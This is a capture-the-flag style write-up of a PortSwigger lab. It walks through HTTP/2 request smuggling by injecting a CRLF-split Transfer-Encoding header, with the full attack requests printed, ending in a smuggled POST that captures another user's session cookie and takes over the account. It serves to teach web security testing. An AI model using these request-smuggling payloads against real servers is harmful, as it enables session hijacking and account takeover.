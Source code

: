 # HTTP/2 request smuggling via CRLF injection | Feb 15, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection), you'll learn: HTTP/2 request smuggling via CRLF injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

> Note:
>  
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141623.png)

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141726.png)

In here, the web application has a login page. That being said, **if we can capture other user's requests, we could potentially takeover their account.**

To do so, we can try to do **HTTP request smuggling**.

**First, test the web application accept HTTP/2 (HTTP version 2) or not:**

> To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142016.png)
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142033.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142050.png)

As you can see, it accepts HTTP/2.

Now, we can test the web application is vulnerable to **H2.CL (Front-end uses HTTP/2, back-end uses `Content-Length` header) via downgrading HTTP/2 requests.**

- H2.CL:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Length: 25

smuggled=yes
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142532.png)

However, when we send the request, nothing happen.

We can also try **H2.TE (Front-end uses HTTP/2, back-end uses `Transfer-Encoding` header) via downgrading HTTP/2 requests.**

- H2.TE:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X:Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144447.png)

Still nothing?

Maybe we can do **request smuggling via CRLF (Carriage Return `\r`, Line Feed `\n`) injection?**

Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the `content-length` or stripping any `transfer-encoding` headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, we can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.

```http
Foo: bar\nTransfer-Encoding: chunked
```

This discrepancy doesn't exist with the handling of a full CRLF (`\r\n`) sequence because all HTTP/1 servers agree that this terminates the header.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

`foo` `bar\r\nTransfer-Encoding: chunked`

This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:

```http
Foo: bar
Transfer-Encoding: chunked
```

Let's try to **inject `Transfer-Encoding` header via CRLF injection**!

**To do so, we need to use the Inspector to drill down into the header, add a new header, then press the `Shift + Return` keys in the value input box:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144531.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144559.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144618.png)

Then send the request twice:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144637.png)

Yes! We successfully triggered a 404 response! Which means **the web application is vulnerable to HTTP request smuggling via H2.TE and CRLF injection!**

But, how can we capture users' request in the login page??

**In the home page, we can search something:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144813.png)

Let's search for anything:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144830.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144839.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144854.png)

When we clicked the "Search" button, **it'll send a POST request to `/`, with parameter `search`.**

***Most importantly, it's tied to our session!***

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145004.png)

Armed with above information, we can capture other users' requests via **smuggling a POST request to `/` with a big `Content-Length` value.**

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
foo: bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Cookie: session=g5VS4PaNaMcMZ1uI02pCFquZaqDzxPW4; _lab_analytics=WKesnTTuo8aqDwQZi1tet4JIbNutweZ7odsZVzSSLjPiagwKcmsIKJMVDq0UPBXuGn04iuFmgisVdmi9vBegM8v0V072K5R4dZhnMwSyZFyJ2UKw5wgMVsMb4VAehnlg2thHlf4WqEXcOVZcmH0HkTilNqh4DLOwpikt9VGEAiRR4L24jChh4282BHUaiKZWY5pGPKXbyEJrPfHedNvv50yDmjm6pbAgZreZJCkCM7nB9IAddhomuaPrF8vY5E1o
Content-Type: application/x-www-form-urlencoded
Content-Length: 800

search=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145829.png)

**Then, in the home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145848.png)

We captured the victim's session cookie!!

**Finally, modify our session cookie to the victim one:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215150026.png)

Boom! We takeovered `carlos` account!

# What we've learned:

1. HTTP/2 request smuggling via CRLF injection